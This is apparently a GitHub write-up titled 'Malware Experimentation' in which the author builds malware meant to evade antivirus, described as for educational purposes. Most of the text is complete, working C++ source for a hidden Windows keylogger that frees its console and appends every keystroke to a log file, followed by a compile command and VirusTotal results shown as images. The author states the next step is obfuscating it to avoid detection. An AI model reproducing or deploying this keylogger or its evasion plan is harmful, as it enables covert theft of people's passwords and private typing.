 Malware Experimentation
---

In this experiment, i will try to develop a malware that is able to bypass antivirus softwares for educational purpose. For the sake of demonstration, i will primarily use C++ to create a malware.

Jan 21 2025
---

I have created a keylogger file using one on the internet in which it will save the output in log.txt every time i type.

```
#include <iostream>
#include <windows.h>

using namespace std;

int Save(int _key, char *file);

int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}

int Save(int _key, char *file) {
    cout<< _key << endl;
    Sleep(10);
    FILE *OUTPUT_FILE; // can also use the ofstream command
    OUTPUT_FILE = fopen(file, "a+"); //a+ is used to add new keys each time, and not overwrite
    switch(_key)
    {
        case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]");
            break;
        case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]");
            break;
        case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]");
            break;
        case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]");
            break;
        case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]");
            break;
        case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]");
            break;
        case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]");
            break;
        case VK_CONTROL: fprintf(OUTPUT_FILE, "[Ctrl]");
            break;
        case VK_MENU: fprintf(OUTPUT_FILE, "[Alt]");
            break;
        case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS Lock]");
            break;
        case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]");
            break;
    }
    fprintf(OUTPUT_FILE, "%s", &_key);
    fclose(OUTPUT_FILE);
    return 0;
}
```
Next, i compiled it with g++

```
g++ -o test test.cpp
```
**File: log.txt**

![image](https://github.com/user-attachments/assets/ef8020dd-bf85-4d72-98ef-9adac3c205fa)

As you can see from the output file, it records everything when this file is running. Now let's see how it is evaluated in VirusTotal.

Static Analysis
---

![image](https://github.com/user-attachments/assets/3eec70fa-01ad-49a6-8db8-17eb5c6846be)

Dynamic Static Analysis
--

![image](https://github.com/user-attachments/assets/bb10c840-78cf-4076-a3a7-bd7dae1d0582)


**Results:** It seems that some antivirus flag this file as a spyware which is correct but at this is momemt it isn't a spyware yet! (and some give us false positive result lol)

> [!Tip]
> If we want our soon-to-be spyware undetected, we need to wear a ghille suit!

With that being said, we will now obfuscate to make things harder for VirusTotal!



